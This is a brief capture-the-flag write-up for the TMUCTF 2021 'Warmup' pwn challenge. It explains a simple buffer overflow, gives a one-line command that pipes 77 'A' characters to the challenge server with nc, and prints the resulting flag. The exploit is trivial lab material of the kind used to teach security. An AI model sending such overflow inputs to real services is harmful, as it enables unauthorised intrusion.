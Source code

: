 # Warmup

## Challenge Description
![Challenge Description](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Warmup/challenge.png | width=100)

## Writeup
This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
